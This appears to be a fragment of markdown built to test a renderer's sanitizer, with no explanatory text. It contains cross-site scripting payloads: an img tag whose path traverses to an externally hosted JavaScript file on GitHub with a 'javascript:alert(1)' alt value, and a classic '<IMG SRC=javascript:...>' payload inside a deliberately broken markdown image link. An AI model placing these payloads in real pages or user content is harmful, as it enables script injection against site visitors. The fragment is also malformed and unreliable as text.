 ![

<img src="../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js" alt="javascript:alert(1)"/>

<IMG SRC=javascript:alert(&quot;XSS&quot;)>
  
](()

